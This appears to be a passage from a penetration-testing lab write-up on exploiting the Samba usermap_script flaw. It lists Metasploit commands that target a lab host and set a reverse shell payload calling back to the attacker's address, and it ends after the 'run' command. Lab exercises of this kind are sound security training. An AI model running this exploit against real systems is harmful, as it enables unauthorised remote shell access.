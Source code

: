 
---

## ✅ Lab04 – Enumerating & Attacking SMB with Samba Usermap Script

```markdown
# Lab04 – Enumerating & Attacking SMB with Samba Usermap Script
```
## 🧠 Objective
Explore vulnerabilities in the Samba service and attempt exploitation via the usermap_script module.

## 🛠️ Tools
- Metasploit Framework
- Enum4linux (Optional)

## 📁 Exploit Used
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set RPORT 139
set LHOST 192.168.56.1
set payload cmd/unix/reverse
run
